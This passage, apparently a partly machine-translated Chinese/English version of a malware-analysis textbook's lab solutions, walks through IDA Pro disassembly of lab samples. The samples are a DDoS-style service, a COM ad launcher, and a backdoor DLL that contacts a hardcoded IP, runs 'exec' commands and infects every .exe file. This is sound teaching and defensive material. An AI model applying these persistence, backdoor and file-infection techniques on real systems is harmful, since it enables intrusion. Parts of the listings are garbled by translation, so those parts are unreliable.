00401010 mov [esp+14h+ServiceStartTable.lpServiceProc], offset sub_401040

00401018 mov [esp+14h+var_8], 0

00401020 mov [esp+14h+var_4], 0

00401028 call ds:StartServiceCtrlDispatcherA

0040102E push 0

00401030 push 0

00401032 call sub_401040

这段代码以对 StartServiceCtrlDispatcherA 的调用开始。根据 MSDN 文档，该函数由程序用于实现服务，通常立即调用。该函数指定服务控制管理器将调用的服务控制函数。在这里，它指定 sub_401040，在调用 StartServiceCtrlDispatcherA 之后将被调用。

这段代码的第一部分，包括对 StartServiceCtrlDispatcherA 的调用，是作为服务运行的程序所需的账单代码。它没有告诉我们程序在做什么，但它确实告诉我们它期望作为服务运行。

接下来，我们检查 sub_401040 函数，如下所示。

00401040 sub esp, 400h

00401046 push offset Name ; "HGL345"

0040104B push 0 ; bInheritHandle

0040104D push 1F0001h ; dwDesiredAccess

00401052 call ds:OpenMutexA

00401058 test eax, eax

0040105A jz short loc_401064

0040105C push 0 ; uExitCode

0040105E call ds:ExitProcess

The first function call is to OpenMutexA at . The only thing of note is that this call is attempting to obtain a handle to the named mutex HGL345 at . If the call fails, the program exits.

**514**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

The next call is shown in the following listing.

00401064 push esi

00401065 push offset Name ; "HGL345"

0040106A push 0 ; bInitialOwner

0040106C push 0 ; lpMutexAttributes

0040106E call ds:CreateMutexA

This code creates a mutex at  named HGL345 . The combination of these two mutex calls is designed to ensure that only one copy of this executable is running on a system at any given time. If a copy was already running, then the first call to OpenMutexA would have been successful, and the program would have exited.

**7**

Next, the code calls OpenSCManager, which opens a handle to the service control manager so that the program can add or modify services. The next call is to the GetModuleFileName function, which returns the full pathname to the currently running executable or a loaded DLL. The first parameter is a handle to the module for which the name should be retrieved, or it is NULL

to get the full pathname of the executable.

The full pathname is used by CreateServiceA to create a new service. The CreateServiceA call has many parameters, but the key ones are noted in the following listing.

0040109A push 0 ; lpPassword

0040109C push 0 ; lpServiceStartName

0040109E push 0 ; lpDependencies

004010A0 push 0 ; lpdwTagId

004010A2 lea ecx, [esp+414h+BinaryPathName]

004010A6 push 0 ; lpLoadOrderGroup

004010A8 push ecx ; lpBinaryPathName

004010A9 push 0 ; dwErrorControl

004010AB push 2 ; dwStartType

004010AD push 10h ; dwServiceType

004010AF push 2 ; dwDesiredAccess

004010B1 push offset DisplayName ; "Malservice"

004010B6 push offset DisplayName ; "Malservice"

004010BB push esi ; hSCManager

004010BC call ds:CreateServiceA

The key CreateServiceA parameters are BinaryPathName at , dwStartType at , and dwServiceType at . The binary path to the executable is the same as the path to the currently running executable retrieved by the GetModuleFileName call. The GetModuleFileName call is needed because the malware may not know its directory or filename. By dynamically obtaining this information, it can install the service no matter which executable is called or where it is stored.

The MSDN documentation lists valid entries for the dwServiceType and dwStartType parameters. For dwStartType, the possibilities are SERVICE_BOOT_START

(0x00), SERVICE_SYSTEM_START (0x01), SERVICE_AUTO_START (0x02), SERVICE_DEMAND_START

实验解决方案

**515**

[www.it-ebooks.info](http://www.it-ebooks.info/)

(0x03)，和 SERVICE_DISABLED (0x04)。恶意软件传递了 0x02，对应于 SERVICE_AUTO_START，表示该服务在系统启动时自动运行。

许多代码操作与时间相关的结构。IDA Pro 将一个结构标记为 SYSTEMTIME 结构，这是几个 Windows 时间结构之一。根据 MSDN，SYSTEMTIME 结构有单独的字段用于秒、分、时、日等，用于指定时间。在这种情况下，所有值首先设置为 0，然后在  处将年份设置为 0x0834，或十进制的 2100。这个时间代表 2100 年 1 月 1 日的午夜。然后程序在时间格式之间调用 SystemTimeToFileTime。

004010C2 xor edx, edx

004010C4 lea eax, [esp+404h+DueTime]

004010C8 mov dword ptr [esp+404h+SystemTime.wYear], edx 004010CC lea ecx, [esp+404h+SystemTime]

004010D0 mov dword ptr [esp+404h+SystemTime.wDayOfWeek], edx 004010D4 push eax ; lpFileTime

004010D5 mov dword ptr [esp+408h+SystemTime.wHour], edx 004010D9 push ecx ; lpSystemTime

004010DA mov dword ptr [esp+40Ch+SystemTime.wSecond], edx 004010DE mov

[esp+40Ch+SystemTime.wYear], 834h

004010E5 call ds:SystemTimeToFileTime

接下来，程序调用 CreateWaitableTimer、SetWaitableTimer 和 WaitForSingleObject。对我们来说最重要的参数是 SetWaitableTimer 的 lpDueTime 参数。该参数是 SystemTimeToFileTime 返回的 FileTime，如前面的列表所示。然后代码使用 WaitForSingleObject 等待直到 2100 年 1 月 1 日。

代码随后循环 20 次，如下面的列表所示。

00401121 mov

esi, 14h

00401126 push 0 ; lpThreadId

00401128 push 0 ; dwCreationFlags

0040112A push 0 ; lpParameter

0040112C push offset StartAddress ; lpStartAddress

00401131 push 0 ; dwStackSize

00401133 push 0 ; lpThreadAttributes

00401135 call edi ; CreateThread

00401137 dec

esi

00401138 jnz

short loc_401126

在这里，ESI 被设置为  作为对 0x14（十进制的 20）的计数器。在循环结束时，ESI 在  处递减，当它达到零在  时，循环退出。在  处对 CreateThread 的调用有几个参数，但只有一个对我们很重要。lpStartAddress 参数在  处告诉我们哪个函数将被用作线程的起始地址——在本例中标记为 StartAddress。

我们双击 StartAddress。我们看到这个函数调用 InternetOpen 来初始化对互联网的连接，然后在一个循环中调用 InternetOpenUrlA，如下面的代码所示。

**516**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040116D push 0 ; dwContext 0040116F push 80000000h ; dwFlags

00401174 push 0 ; dwHeadersLength

00401176 push 0 ; lpszHeaders

00401178 push offset szUrl ; "http://www.malwareanalysisbook.com"

0040117D push esi ; hInternet

0040117E call edi ; InternetOpenUrlA

00401180 jmp short loc_40116D

在循环末尾的 jmp 指令是一个无条件跳转，这意味着代码永远不会结束；它将无限期地调用 InternetOpenUrlA **7** 并下载*www.malwareanalysisbook.com*的主页。

永远。显然，这种恶意软件是为了在许多机器上安装自己而设计，以发起 DDoS 攻击。如果所有受感染的机器同时在同一时间（公元 2100 年 1 月 1 日）连接到服务器，它们可能会使服务器过载，导致无法访问网站。

总结来说，这种恶意软件使用互斥锁来确保一次只运行一个副本，创建一个服务以确保在系统重启时再次运行，等待到公元 2100 年 1 月 1 日，然后无限期地继续下载*www.malwareanalysisbook.com*。

注意，这种恶意软件并没有执行服务所需的所有功能。通常，一个服务必须实现停止或暂停的函数，并且它必须更改其状态，以便让用户和操作系统知道服务已启动。因为这种恶意软件没有做这些，所以它的服务状态将始终显示为 START_PENDING，并且在运行时无法停止服务。恶意软件通常只实现足够的功能来实现作者的意图，而不必麻烦实现规范要求的全部功能。

**注意**

*如果您在没有虚拟机的情况下运行了这个实验，请在命令行中输入* *sc delete Malservice* *来删除恶意软件，然后删除该文件本身。*

**实验 7-2 解决方案**

***简短回答***

1.

此程序无法实现持久性。它运行一次后就会退出。

2.

程序向用户显示一个广告网页。

3.

程序在显示广告后完成执行。

***详细分析***

我们从一些基本的静态分析开始。虽然我们没有看到任何有趣的 ASCII 字符串，但我们确实看到一个有趣的 Unicode 字符串：http://www.malwareanalysisbook.com/ad.html。我们检查了导入和实验室解决方案

**517**

[www.it-ebooks.info](http://www.it-ebooks.info/)

程序的导出，除了标准导入外，只看到几个导入，如下所示：

SysFreeString

SysAllocString

VariantInit

CoCreateInstance

OleInitialize

OleUninitialize

所有这些函数都与 COM 相关。特别是，CoCreateInstance 和 OleInitialize 函数是使用 COM 所必需的

功能。

接下来，我们尝试动态分析。当我们运行此程序时，它会打开 Internet Explorer 并显示一个广告。没有证据表明程序修改了系统或将自己安装为在计算机重启时执行。

现在我们可以使用 IDA Pro 分析代码。我们导航到 _main 方法，看到以下列表中的代码。

00401003 push 0 ; pvReserved

00401005 call ds:OleInitialize

0040100B test eax, eax

0040100D jl short loc_401085

0040100F lea eax, [esp+24h+(1) ppv]

00401013 push eax ; ppv

00401014 将 riid 的偏移量压入堆栈；riid

00401019 将 4 压入堆栈；dwClsContext

0040101B 将 0 压入堆栈；pUnkOuter

0040101D 将 rclsid 的偏移量压入堆栈；rclsid

00401022 调用 ds:CoCreateInstance

00401028 将 eax 寄存器加载为 [esp+24h+ppv] 的值

恶意软件首先执行的操作是初始化 COM 并使用 OleInitialize 在  和 CoCreateInstance 在  获取 COM 对象的指针。COM

返回的对象将存储在堆栈上的一个变量中，IDA Pro 标记为 ppv，如下所示在 。为了确定正在使用的 COM 功能，我们需要检查接口标识符（IID）和类标识符（CLSID）。

点击 rclsid 和 riid 显示它们分别是 0002DF01-0000-0000-C000-000000000046 和 D30C1661-CDAF-11D0-8A3E-00C04FC9E26E。为了确定将被调用的程序，检查注册表中的 CLSID，或在网上搜索 IID 以获取任何文档。在这种情况下，这些值是我们用于“组件对象模型”中使用的相同标识符。

在页面 154\. IID 是 IWebBrowser2，CLSID 是 Internet Explorer。

如下所示列表中，CoCreateInstance 返回的 COM 对象在几条指令后被访问在 。

**518**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040105C 将 eax 加载为 [esp+28h+ppv]

00401060 将 ecx 压入堆栈

00401061 将 ecx 寄存器加载为 [esp+2Ch+pvarg] 的值

00401065 将 edx 加载为 [eax]

00401067 将 ecx 压入堆栈

00401068 将 ecx 加载为 [esp+30h+pvarg]

0040106C 将 ecx 压入堆栈

0040106D 将 ecx 加载为 [esp+34h+var_10]

00401071 将 ecx 压入堆栈

00401072 将 esi 压入堆栈

00401073 将 eax 压入堆栈

00401074 调用 [edx+2Ch] 的双字指针

**7**

在此指令之后，EAX 指向 COM

对象。在 ，EAX 被解引用，EDX 指向 COM 对象本身的开始。在 ，从对象偏移 +0x2C 的函数被调用。正如章节中讨论的，IWebBrowser2 接口的偏移 0x2C 是 Navigate 函数，我们可以使用 IDA Pro 的结构窗口创建一个结构并标记偏移。当 Navigate 被调用时，Internet Explorer 将导航到网页地址 *http://www.malwareanalysisbook*

*.com/ad.html*.

在调用 Navigate 之后，有一些清理函数，然后程序结束。程序不会持久化安装自身，也不会修改系统。它只是显示一次广告。

当你遇到这样一个简单的程序时，你应该考虑它是可疑的。它可能附带额外的恶意软件，其中这只是其中一个组件。

**Lab 7-3 Solutions**

***简短回答***

1\.

此程序通过将 DLL 写入 *C:\Windows\System32* 并修改系统上的每个 *.exe* 文件以导入该 DLL 来实现持久化。

2\.

程序硬编码使用文件名 *kerne**1**32.dll*，这使其成为一个好的签名。（注意使用数字 *1* 而不是字母 *l*。）程序使用一个硬编码的互斥锁名为 SADFHUHF。

3\.

该程序的目的是为了创建一个难以删除的后门，该后门连接到远程主机。后门有两个命令：一个用于执行命令，另一个用于休眠。

4\.

由于该程序感染了系统上的每个 *.exe* 文件，因此很难删除。在这种情况下，最好从备份中恢复。

如果从备份中恢复特别困难，你可以留下恶意的 *kerne**1**32.dll* 文件并修改它以删除恶意内容。

或者，你可以复制 *kernel32.dll* 并将其命名为 *kerne**1**32.dll*，或者编写一个程序来撤销对 PE 文件的所有更改。

实验解决方案

**519**

[www.it-ebooks.info](http://www.it-ebooks.info/)

***详细分析***

首先，我们将使用基本的静态分析技术查看 *Lab07-03.exe*。当我们对可执行文件运行 Strings 时，我们得到通常的无效字符串和导入的函数。我们还得到星期几、一年中的月份和其他字符串，这些都是库代码的一部分，而不是恶意可执行文件的一部分。

以下列表显示代码中有几个有趣的字符串。

kerne132.dll

.exe

WARNING_THIS_WILL_DESTROY_YOUR_MACHINE

C:\Windows\System32\Kernel32.dll

Lab07-03.dll

Kernel32\.

C:\windows\system32\kerne132.dll

C:\*

字符串 *kerne**1**32.dll* 明显是为了看起来像 *kernel32.dll*，但将 *l* 替换为 *1*。

**注意**

*在本节余下的部分，冒名顶替者* **kerne132.dll** *将被加粗，以便更容易与* kernel32.dll *区分。*

字符串 Lab07-03.dll 告诉我们，该 *.exe* 可能以某种方式访问该实验的 DLL。字符串 WARNING_THIS_WILL_DESTROY_YOUR_MACHINE 很有趣，但实际上是针对本书对该恶意软件进行的修改的遗留物。正常的恶意软件不会包含此字符串，我们将在稍后看到其在恶意软件中的更多用法。

接下来，我们检查 *Lab07-03.exe* 的导入项。其中最有趣的是以下内容：

CreateFileA

CreateFileMappingA

MapViewOfFile

IsBadReadPtr

UnmapViewOfFile

CloseHandle

FindFirstFileA

FindClose

FindNextFileA

CopyFileA

导入项 CreateFileA、CreateFileMappingA 和 MapViewOfFile 告诉我们，这个程序可能打开一个文件并将其映射到内存中。FindFirstFileA 和 FindNextFileA 的组合告诉我们，程序可能搜索目录并使用 CopyFileA 来复制它找到的文件。

事实上，该程序没有导入 *Lab07-03.dll*（或使用该 DLL 中的任何函数）、LoadLibrary 或 GetProcAddress，这表明它可能在运行时没有加载该 DLL。这种行为令人怀疑，我们需要将其作为分析的一部分进行检查。

**520**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

接下来，我们检查 DLL 中是否有任何有趣的字符串和导入项，并发现了一些值得调查的字符串，如下所示：

hello

127.26.152.13

sleep

exec

最有趣的字符串是一个 IP 地址，127.26.152.13，恶意软件可能会连接到。（你可以设置基于网络的传感器来查找此地址的活动。）我们还看到了字符串 hello、sleep 和 exec，当我们在 IDA Pro 中打开程序时，我们应该检查这些字符串。

接下来，我们检查 *Lab07-03.dll* 的导入。我们看到来自 *ws2_32.dll* 的导入 **7**

包含所有通过网络发送和接收数据的函数。值得注意的是 CreateProcess 函数，它告诉我们这个程序可能会创建另一个进程。

我们还检查了 *Lab07-03.dll* 的导出，奇怪的是，它没有任何导出。没有导出，它不能被其他程序导入，尽管程序仍然可以调用 LoadLibrary 在没有导出的 DLL 上。当我们更仔细地查看 DLL 时，我们会记住这一点。

我们接下来尝试基本的动态分析。当我们运行可执行文件时，它快速退出，没有太多明显的活动。（我们可以尝试使用 rundll32 运行 DLL，但由于 DLL 没有导出，这不会起作用。）不幸的是，基本的动态分析并没有告诉我们太多。

下一步是使用 IDA Pro 进行分析。你从 DLL 还是 EXE 开始是一个个人喜好问题。我们将从 DLL 开始

因为它比 EXE 更简单。

**分析 DLL**

当在 IDA Pro 中查看 DLL 时，我们看到没有导出，但我们确实看到了一个入口点。我们应该导航到 DLLMain，这是由 IDA Pro 自动标记的。与先前的两个实验不同，DLL 有很多代码，逐条指令检查需要花费很长时间。因此，我们使用一个简单的技巧，只查看调用指令，忽略所有其他指令。

这可以帮助你快速了解 DLL 的功能。让我们看看只有相关调用指令的代码会是什么样子。

10001015 调用 __alloca_probe

10001059 调用 ds:OpenMutexA

1000106E 调用 ds:CreateMutexA

1000107E 调用 ds:WSAStartup

10001092 调用 ds:socket

100010AF 调用 ds:inet_addr

100010BB 调用 ds:htons

100010CE 调用 ds:connect

10001101 调用 ds:send

10001113 调用 ds:shutdown

10001132 调用 ds:recv

1000114B 调用 ebp ; strncmp

实验解决方案

**521**

[www.it-ebooks.info](http://www.it-ebooks.info/)

10001159 调用 ds:Sleep

10001170 调用 ebp ; strncmp

100011AF 调用 ebx ; CreateProcessA

100011C5 调用 ds:Sleep

第一个调用是库函数 __alloca_probe，用于在栈空间上分配空间。我们在这里能告诉你的只是这个函数使用了大量的栈空间。随后是调用 OpenMutexA 和 CreateMutexA，就像 Lab 7-1 中的恶意软件一样，这是为了确保一次只有一个恶意软件副本在运行。

列出的其他函数需要与远程套接字建立连接，以及发送和接收数据。此函数以调用 Sleep 和 CreateProcessA 结束。到目前为止，我们还不知道发送或接收了什么数据，或者创建了哪个进程，但我们可以猜测这个 DLL 的作用。一个发送和接收数据并创建进程的函数的最佳解释是它被设计用来接收来自远程机器的命令。

现在我们知道了这个函数的作用，我们需要查看发送和接收的数据。首先，我们检查连接的目地地址。在 connect 调用之前几行，我们看到一个调用 inet_addr，带有固定的 IP 地址 127.26.152.13。我们还看到端口号是 0x50，即端口号 80，这是通常用于 Web 流量的端口。

但正在通信的数据是什么？send 的调用如下所示。

100010F3 将 0 推送到栈上；flags

100010F5 重复前缀不匹配的 scasb

100010F7 对 ecx 进行按位非操作

100010F9 ecx 减 1

100010FA 将 ecx 推送到栈上；len

100010FB 将偏移量buf 推送到栈上；

"hello"

10001100 将 esi 寄存器的值推送到栈上；s

10001101 调用 ds:send

正如你所见，buf 参数存储了要发送到网络上的数据，IDA Pro 识别出 buf 的指针代表了一个字符串

"hello"并将其标记为这样的标签。这似乎是受害机器发送的问候，以便让服务器知道它已准备好接收命令。

接下来，我们可以看到程序期望的响应数据如下：

10001124 lea

eax, [esp+120Ch+buf]

1000112B 将 1000h 推送到栈上；len

10001130 将 eax 寄存器的值推送到栈上；buf

10001131 将 esi 寄存器的值推送到栈上；s

10001132 调用ds:recv

如果我们转到 recv 的调用，我们会看到栈上的缓冲区已经被 IDA Pro 标记为。注意，首先访问 buf 的指令是一个 lea 指令。指令没有解引用存储的**522**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

在该位置，但它只获取该位置的指针。recv 的调用将存储传入的网络流量到栈上。

现在我们必须确定程序如何处理响应。

我们在几行之后看到处的缓冲区值被检查，如下所示。

1000113C 将寄存器 ecx 的值设置为[esp+1208h+buf]的值；

10001143 将 5 推送到栈上；size_t

10001145 将 ecx 推送到栈上；char *

10001146 将 aSleep 的偏移量推送到栈上；"sleep"

1000114B 调用 ebp；strncmp

1000114D 将 esp 增加 0Ch

10001150 测试 eax 寄存器是否为零；

**7**

10001152 如果不为零则跳转到 short loc_10001161

10001154 将十六进制的 60000h 推送到栈上；dwMilliseconds

10001159 调用 ds:Sleep

在处访问的缓冲区与上一个列表中的相同，尽管从 ESP 的偏移量不同（一个为 esp+1208+buf，另一个为 esp+120C+buf）。这种差异是由于栈的大小发生了变化。IDA Pro 将两个 buf 都标记出来，以便于识别它们是相同的值。

这段代码在处调用 strncmp，并检查前五个字符是否是字符串 sleep。然后，在函数调用后立即检查返回值是否为 0，如所示；如果是，它将调用 Sleep 函数暂停 60 秒。这告诉我们，如果远程服务器发送 sleep 命令，程序将调用 Sleep 函数。

我们在几条指令后再次看到缓冲区被访问，如下所示：10001161 lea edx, [esp+1208h+buf]

10001168 push 4 ; size_t

1000116A push edx ; char *

1000116B push offset aExec ; "exec"

10001170 call ebp ; strncmp

10001172 add esp, 0Ch

10001175 test eax, eax

10001177 jnz short loc_100011B6

10001179 mov ecx, 11h

1000117E lea edi, [esp+1208h+StartupInfo]

10001182 rep stosd

10001184 lea eax, [esp+1208h+ProcessInformation]

10001188 lea ecx, [esp+1208h+StartupInfo]

1000118C push eax ; lpProcessInformation 1000118D push ecx ; lpStartupInfo

1000118E push 0 ; lpCurrentDirectory

10001190 push 0 ; lpEnvironment

10001192 push 8000000h ; dwCreationFlags

10001197 push 1 ; bInheritHandles

10001199 push 0 ; lpThreadAttributes

1000119B lea edx, [esp+1224h+CommandLine]

100011A2 push 0 ; lpProcessAttributes 100011A4 push edx ; lpCommandLine

实验室解决方案

**523**

[www.it-ebooks.info](http://www.it-ebooks.info/)

100011A5 push 0 ; lpApplicationName 100011A7 mov [esp+1230h+StartupInfo.cb], 44h

100011AF call ebx ; CreateProcessA

这次，我们看到代码正在检查缓冲区是否以 exec 开头。如果是这样，strncmp 函数将返回 0，如所示，并且代码将跳过 jnz 指令并调用 CreateProcessA 函数。

在处显示的 CreateProcessA 函数有很多参数，但最有趣的是处的 CommandLine 参数，它告诉我们将要创建的进程。列表表明，CommandLine 中的字符串在代码的早期某个地方存储在栈上，我们需要确定它的位置。我们在代码中向后搜索，通过将光标放在 CommandLine 操作符上以突出显示此函数中访问 CommandLine 值的所有实例来找到 CommandLine。不幸的是，当你查看整个函数时，你会看到 CommandLine 指针似乎在函数的其他地方没有被访问或设置。

在这个点上，我们遇到了难题。我们看到 CreateProcessA 被调用了，要运行的程序存储在 CommandLine 中，但我们没有看到 CommandLine 的任何写入。CommandLine 必须在作为 CreateProcessA 参数使用之前被写入，所以我们还有一些工作要做。

这是一个棘手的情况，IDA Pro 的自动标记实际上使得识别 CommandLine 的写入位置变得更加困难。以下列表中显示的 IDA Pro 函数信息告诉我们 CommandLine 对应于处的 0x0FFB 值。

10001010 ; BOOL __stdcall DllMain(...)

10001010 _DllMain@12 proc near

10001010

10001010 hObject = dword ptr -11F8h

10001010 name = sockaddr ptr -11F4h

10001010 ProcessInformation=_PROCESS_INFORMATION 指针 -11E4h 10001010 StartupInfo = _STARTUPINFOA 指针 -11D4h

10001010 WSAData = WSAData 指针 -1190h

10001010 buf =  字节指针 -1000h

10001010 CommandLine =  字节指针 -0FFBh

10001010 arg_4 = 双字指针 8

记住我们的接收缓冲区从 0x1000  开始，并且这个值是通过 lea 指令设置的，这告诉我们数据本身存储在堆栈上，而不仅仅是数据的指针。此外，0x0FFB 是我们的接收缓冲区中的第 5 个字节，这告诉我们要执行的命令是存储在接收缓冲区第 5 个字节中的内容。在这种情况下，这意味着从远程服务器接收到的数据将是 exec *FullPathOfProgramToRun*。当恶意软件从远程服务器接收到 exec *FullPathOfProgramToRun* 命令字符串时，它将使用 *FullPathOfProgramToRun* 调用 CreateProcessA。

这就带我们来到了这个函数和 DLL 的结尾。我们现在知道这个 DLL 实现了后门功能，允许攻击者通过响应 **524** 的数据包在系统上启动可执行文件。

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

端口 80\. 仍然存在这个 DLL 没有导出函数的神秘之处以及这个 DLL 如何运行的问题，DLL 的内容也没有提供解释，因此我们需要将这些疑问留到以后再解决。

**分析 EXE 文件**

接下来，我们导航到可执行文件中的主方法。我们看到的第一件事是对命令行参数的检查，如下所示。

00401440 将 eax 寄存器的值设置为 [esp+argc]

00401444 将 esp 寄存器的值减去 44h

00401447 cmp eax, 2

**7**

0040144A 将 ebx 寄存器压入堆栈

0040144B 将 ebp 寄存器压入堆栈

0040144C 将 esi 寄存器压入堆栈

0040144D 将 edi 寄存器压入堆栈

0040144E jnz loc_401813

00401454 将 eax 寄存器的值设置为 [esp+54h+argv]

00401458 将 esi 寄存器的值设置为 aWarning_this_w 的偏移量 ; "WARNING_THIS_WILL_DESTROY_YOUR_MACHINE"

0040145D 将 eax 寄存器的值设置为 [eax+4]

00401460 ; CODE XREF: _main+42 j 00401460 mov dl, [eax]

00401462 将 bl 寄存器的值设置为 [esi]

00401464 将 cl 寄存器的值设置为 dl

00401466 比较 dl 和 bl

00401468 jnz short loc_401488

0040146A 测试 cl 寄存器的值

0040146C jz short loc_401484

0040146E 将 dl 寄存器的值设置为 [eax+1]

00401471 将 bl 寄存器的值设置为 [esi+1]

00401474 将 cl 寄存器的值设置为 dl

00401476 比较 dl 和 bl

00401478 jnz short loc_401488

0040147A 将 eax 寄存器的值加 2

0040147D 添加 esi, 2

00401480 测试 cl 寄存器的值

00401482 jnz short loc_401460

00401484 ; CODE XREF: _main+2C j 00401484 xor eax, eax

00401486 短跳转 jmp short loc_40148D

第一次比较  检查参数计数是否为 2。如果参数计数不是 2，代码将跳转到  另一个代码段，并提前退出。（这就是我们尝试进行动态分析而程序快速结束的情况。）然后程序将 argv[1] 移入 EAX 寄存器 ，并将 "WARNING_THIS_WILL_DESTROY_YOUR_MACHINE" 字符串移入 ESI 寄存器。在  和  之间的循环比较 ESI 和 EAX 寄存器中存储的值。如果它们不相同，程序将跳转到不会执行其他操作而直接返回函数的位置。

实验室解决方案

**525**

[www.it-ebooks.info](http://www.it-ebooks.info/)

我们了解到，除非在命令行上指定正确的参数，否则该程序会立即退出。此程序的正确用法如下：

Lab07-03.exe WARNING_THIS_WILL_DESTROY_YOUR_MACHINE

**注意**

*具有不同行为或需要命令行参数的恶意软件是现实的，* *尽管这个消息不是。恶意软件所需的参数通常会更* *晦涩。我们选择使用这个参数是为了确保您不会意外地在* *重要的机器上运行它，因为它可能会损坏您的计算机，并且难以删除.*

在这一点上，我们可以回到基本动态分析，重新输入正确的参数，让程序执行更多的代码，但为了保持势头，我们将继续进行静态分析。如果我们遇到困难，我们可以进行基本的动态分析。

在 IDA Pro 中继续分析，我们看到调用 CreateFile、CreateFileMapping 和 MapViewOfFile，它打开 *kernel32.dll* 和我们的 DLL *Lab07-03.dll*。查看这个函数，我们看到很多复杂的内存读写操作。我们可以仔细分析每条指令，但这会花费太多时间，所以让我们先看看函数调用。

我们还看到了两个其他函数调用：sub_401040 和 sub_401070\. 每个函数相对较短，并且没有调用其他函数。这些函数正在比较内存、计算偏移量或写入内存。

因为我们不是试图确定程序的每一个操作，所以我们可以跳过繁琐的内存操作函数。（分析这些耗时函数是一个常见的陷阱，除非绝对必要，否则应避免。）我们还在这个函数中看到了很多算术运算，以及内存移动和比较，可能是在两个打开的文件（*kernel32.dll* 和 *Lab07-03.dll*）中。程序正在读取和写入这两个打开的文件。我们可以仔细跟踪每条指令以查看发生了什么变化，但这样做现在会更简单，我们可以跳过这些细节，并使用动态分析来观察文件是如何被访问和修改的。

在 IDA Pro 中向下滚动，我们看到更多有趣的代码，它调用了 Windows API 函数。首先，它调用 CloseHandle 关闭两个打开的文件，因此我们知道恶意软件已经完成了对这些文件的编辑。然后它调用 CopyFile，将 *Lab07-03.dll* 复制到 *C:\Windows\System32\**kerne132.dll***，这显然是为了看起来像 *kernel32.dll*。我们可以猜测 ***kerne132.dll*** 将被用来替代 *kernel32.dll* 运行，但到目前为止，我们不知道它是如何做到的

***kerne132.dll*** 将被加载。

调用 CloseHandle 和 CopyFile 告诉我们这部分代码已经完成，下一部分代码可能执行一个单独的逻辑任务。我们继续查看主方法，在接近末尾的地方，我们看到另一个函数调用，它接受字符串参数 C:\\*，如下所示：00401806 push offset aC ; "C:\\*"

0040180B 调用 sub_4011E0

**526**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

与 main 调用的其他函数不同，sub_4011E0 调用了几个其他导入的函数，看起来很有趣。导航到 sub_4011E0，我们预计 IDA Pro 会将函数的第一个参数命名为 arg_0，但它将其标记为 lpFilename。它知道它是一个文件名，因为它被用作接受文件名参数的 Windows API 函数的参数。这个函数做的第一件事就是调用 C:\\*上的 FindFirstFile 来搜索*C:*驱动器。

在调用 FindFirstFile 之后，我们看到大量的算术和比较操作。这是另一个既繁琐又耗时的函数，我们应该跳过它，除非我们以后需要更多信息。我们看到的第一个调用（除了 malloc 之外）是对 sub_4011e0 的调用，这是我们目前正在分析的函数，这告诉我们这是一个递归函数，它会调用自己。下一个**7**

被调用的函数是处的 stricmp，如下所示：

004013F6

调用 ds:_stricmp

004013FC add esp, 0Ch

004013FF test eax, eax

00401401 jnz short loc_40140C

00401403 push ebp ; lpFileName 00401404

调用 sub_4010A0

在函数调用大约 30 条指令之前，stricmp 函数的参数被压入堆栈，但您仍然可以通过查找最近的压入指令来找到它们。字符串比较检查一个字符串与.exe，然后它调用位于的函数 sub_4010a0 以查看它们是否匹配。

我们将在查看 sub_4010a0 做什么之前完成对这个函数的审查。

进一步挖掘，我们看到一个对 FindNextFileA 的调用，然后我们看到一个跳转调用，这表明这个功能是在循环中执行的。在函数的末尾，调用了 FindClose，然后函数通过一些异常处理代码结束。

到目前为止，我们可以有很高的信心说这个函数正在搜索*C:*驱动器上的*.exe*文件，并且如果文件有*.exe*扩展名，它将执行某些操作。

递归调用告诉我们它可能正在搜索整个文件系统。

我们可以回过头去验证细节以确保无误，但这会花费很长时间。一个更好的方法是使用 Process Monitor（procmon）进行基本的动态分析，以验证它是否正在搜索每个以*.exe*结尾的目录中的文件。

为了了解这个程序对*.exe*文件做了什么，我们需要分析当找到*.exe*扩展名时被调用的函数 sub_4010a0。

sub_4010a0 是一个复杂的函数，仔细分析它将花费太长时间。

相反，我们再次只关注函数调用。在这里，我们看到它首先调用了 CreateFile、CreateFileMapping 和 MapViewOfFile 来将整个文件映射到内存中。这告诉我们整个文件被映射到内存空间中，程序可以读取或写入文件而无需任何额外的函数调用。这使分析变得复杂，因为更难判断文件是如何被修改的。

**527**

[www.it-ebooks.info](http://www.it-ebooks.info/)

我们将快速浏览这个函数，并使用动态分析来查看对文件所做的更改。

继续审查函数，我们看到更多的 IsBadPtr 算术调用，这些调用验证指针是否有效。然后我们看到一个与以下列表中所示的 stricmp 调用。

0040116E push offset aKernel32_dll ; "kernel32.dll"

00401173 push ebx ; char *

00401174 call ds:_stricmp

0040117A add esp, 8

0040117D test eax, eax

0040117F jnz short loc_4011A7

00401181 mov edi, ebx

00401183 or ecx, 0FFFFFFFFh

00401186 repne scasb

00401188 not ecx

0040118A mov eax, ecx

0040118C mov esi, offset dword_403010

00401191 mov edi, ebx

00401193 shr ecx, 2

00401196 rep movsd

00401198 mov ecx, eax

0040119A and ecx, 3

0040119D rep movsb

在这个 stricmp 调用中，程序检查字符串值 kernel32.dll。几条指令后，我们看到程序调用了 repne scasb。

以及处的 rep movsd，它们在功能上等同于 strlen 和 memcpy 函数。为了看到 memcpy 调用写入哪个内存地址，我们需要确定 EDI 寄存器中存储的内容，该寄存器由 rep movsd 指令使用。EDI 寄存器加载了 EBX 在处的值，因此我们需要查看 EBX 是如何设置的。

我们看到 EBX 寄存器加载了我们传递给 stricmp 的值。

这意味着如果函数找到字符串 kernel32.dll，代码会将其替换为其他内容。为了确定它用什么替换了这个字符串，我们转到 rep movsd 指令，并看到源地址是 dword_403010 偏移处。

DWORD 值覆盖 kernel32.dll 字符串没有意义，但一个字符串值覆盖另一个字符串是有意义的。以下列表显示了 dword_403010 处存储的内容。

00403010 dword_403010 dd 6E72656Bh ; DATA XREF: 00403014 dword_403014 dd 32333165h ; DATA XREF: _main+1B9r 00403018 dword_403018 dd 6C6C642Eh ; DATA XREF: _main+1C2r 0040301C dword_40301C dd 0 ; DATA XREF: _main+1CBr 你应该知道以 3、4、5、6 或 7 开头的十六进制值是 ASCII 字符。IDA Pro 错误地标记了我们的数据。如果我们把光标放在 dword_403010 同一行的位置，并按键盘上的 A 键，它将把数据转换为字符串**kerne132.dll**。

**528**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

